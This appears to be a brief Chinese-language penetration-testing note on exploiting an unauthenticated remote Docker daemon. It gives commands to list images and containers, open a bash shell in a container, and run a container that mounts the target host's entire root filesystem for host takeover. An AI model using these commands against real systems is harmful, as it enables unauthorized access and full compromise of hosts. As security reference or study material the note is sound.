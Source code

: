 Docker 的默认端口，用于 Docker 守护进程的非安全通信


**0x01 查看镜像**

```bash
docker -H $IP images
```


**0x02 查看正在运行的容器**

```bash
docker -H $IP ps
```


**0x03 进入容器目录**

```bash
docker -H $IP exec -it [NAMES] /bin/bash
#exec : 执行命令的子命令，用于在容器内执行命令。
#-it : 组合选项，表示要以交互式（Interactive）和终端（TTY）的方式运行命令
```


**0x04 远程 Docker 挂载**

```bash
docker -H $IP run --rm -it -v /:/tmp/1/ [NAMES] /bin/bash
#run : Docker子命令 ， 启动容器
#--rm : Docker容器停止后自动删除容器内容
#-it :  组合选项，表示要以交互式（Interactive）和终端（TTY）的方式运行命令
#-v /:/tmp/1/ 指定主机的根目录 / 挂载到 /tmp/1/ 目录下
#[NAMES] : 容器名称 , 通过 docker -H $IP ps 可以查看
```

